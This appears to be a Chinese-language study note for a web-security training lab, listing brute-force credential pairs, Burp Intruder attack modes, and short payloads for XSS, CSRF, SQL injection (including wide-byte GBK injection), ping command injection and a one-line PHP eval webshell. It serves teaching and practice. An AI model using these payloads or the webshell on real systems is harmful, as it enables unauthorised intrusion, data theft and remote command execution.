

# 暴力破解

## 基于表单的破解
 
admin 123456  
test abc123  
pikachu 000000

## 验证码绕过（on server）

拦截前端刷新验证码的接口，后面的步骤同上

## 验证码绕过（on client）

直接接口调用，同无验证码

## token防爆破

使用pitchfork attack


分三份


总结

|  攻击模式 | Payloads  | 攻击效果  |
|---|---|---|
|Sniper   |  1 |一个参数不变，另一个遍历字典|
|  Batteringram | 1  |  两个参数同步遍历一个字典  |
| Pitchfork  | 	N(取决于参数有几个)  |  两个参数同步遍历两个不同的字典   |
|  Cluster bomb |  	N(取决于参数有几个) | 两个字典的笛卡尔积  |
> 以上总结作者：ReisenSS
> 链接：https://juejin.cn/post/7232091653065834555
> 来源：稀土掘金
> 著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。
> 

# XSS

## 反射型xss（get）

输入<script>alert(1)</script>，前端长度限制修改html即可解除限制

## 反射型xss（post）

同上

## 存储型xss

## DOM型xss

javascript:alert(1)


## xss过滤

过滤了script

使用`` 绕过

## xss js输出

# csrf

通过伪造url跳转

## post

通过伪造恶意页面，将请求嵌入隐藏表单

# SQL注入

常用函数：database(), version(), user(), group_concat()

获取表名语句  
```sql
union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=0x74657374
```

## delete 注入

payload: `57 or updatexml(1,concat(0x7e,database()),0)`

## insert 注入

payload: `' and extractvalue(1,concat(0x7e,(database()))) and '1'='1`

## http-header 注入

payload: `' or updatexml(1,concat(0x7e,database()),0) or '`

## 盲注

### 布尔盲注

### 时间盲注

## 宽字节注入

宽字节注入指的是 mysql 数据库在使用宽字节（GBK）编码时，会认为两个字符是一个汉字（前一个ascii码要大于128（比如%df），才到汉字的范围），而且当我们输入单引号时，mysql会调用转义函数，将单引号变为'，其中\的十六进制是%5c,mysql的GBK编码，会认为%df%5c是一个宽字节，也就是’運’，从而使单引号闭合（逃逸），进行注入攻击。

%ef也是可以的
```sql
select id,email from member where username='$name'
# name=1%df' union select database(),2 #
select id,email from member where username='1�\' union select database(),2 #'
```

以上sql语句中的`�\ `即`%df%5c`会被MySQL当作一个汉字处理，因此后面的单引号就逃逸了。

# RCE

remote command/code execute

## ping

127.0.0.1 | calc

## eval

## File Inclusion

### local

一句话木马：  
<?php @eval($_POST['123']);?>

可以配合文件上传webshell

### remote

## 文件下载

路径穿越

## 文件上传

可以结合文件包含漏洞解析图片木马


# 参考

- https://www.cnblogs.com/henry666/p/16947270.html
- https://cs-cshi.github.io/cybersecurity/%E5%AE%BD%E5%AD%97%E8%8A%82%E6%B3%A8%E5%85%A5%E6%B7%B1%E5%BA%A6%E8%AE%B2%E8%A7%A3/